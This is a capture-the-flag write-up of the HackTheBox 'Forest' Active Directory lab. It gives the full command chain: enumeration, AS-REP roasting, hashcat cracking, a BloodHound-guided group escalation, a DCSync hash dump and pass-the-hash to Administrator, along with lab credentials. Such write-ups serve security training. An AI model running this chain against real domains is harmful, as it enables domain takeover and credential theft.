## Enumeration
### NMAP

```bash
nmap -sC -sV -v -T4 -Pn -oN scans/nmap.txt forest.htb
```

```text
PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2022-08-01 10:58:44Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h26m49s, deviation: 4h02m31s, median: 6m48s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2022-08-01T10:58:48
|_  start_date: 2022-08-01T05:10:56
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2022-08-01T03:58:49-07:00
```

I'll start by adding `htb.local` to my `/etc/hosts`.

### RPC Client

RPC is open on port `593`. 

```bash
rpcclient -U '' -N forest.htb
```

  

We get a list of users.

```text
administrator
sebastien
lucinda
svc-alfresco
andy
mark
anti
```

## Shell as svc-alfresco

### ASREPRoast

We can use `kerbrute` to try dumping user TGT's.

```bash
impacket-GetNPUsers htb.local/ -usersfile userlist.txt -format hashcat -outputfile hashes.asreproast
```

  

### Crack TGT

```bash
hashcat -m 18200 -a 0 hashes.asreproast /usr/share/wordlists/rockyou.txt --force
```

  

```text
svc-alfresco:s3rvice
```

### Shell

```bash
evil-winrm -i forest.htb -u svc-alfresco -p s3rvice
```

  

## Shell as Administrator

### BloodHound

We'll start by dumping domain objects using `bloodhound-python` and then importing these into `bloodhound`.

```bash
bloodhound-python -c All -u svc-alfresco -p s3rvice -d htb.local -ns 10.10.10.161
```

We can see that we are part of the `Account Operators` group which lets us create and modify users.

  

Click Shortest Paths to Here from Owned from the `HTB.LOCAL` domain.

  

Now we've got a simple path to follow.

  

We can see that once we're in the `Exchange Windows Permissions` group we have `WriteDacl` permissions over the domain which lets us perform a DCSymc attack.

We can follow the Abuse Info that Bloodhound provides us.

  

We first need to add ourselves to the `Exchange Windows Permissions` group.

```powershell
net user pwn pwn123! /add /domain
net group "Exchange Windows Permissions" pwn /add /domain
```

### DCSync

Now we're able to perform the `DCSync` attack.

```powershell
$Pass = ConvertTo-SecureString 'pwn123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('HTB\pwn', $Pass)
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=HTB,DC=LOCAL" -PrincipalIdentity pwn -Rights DCSync
```

Now we can use `secretsdump` to obtain the Administrators NTLM hash.

```bash
impacket-secretsdump 'htb.local/pwn:pwn123!@forest.htb'
```

  

```text
32693b11e6aa90eb43d32c72a07ceea6
```

### Pass the Hash

```bash
evil-winrm -i forest.htb -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6
```

  

### Proof

```powershell
cat c:\users\administrator\desktop\root.txt; ipconfig
```

  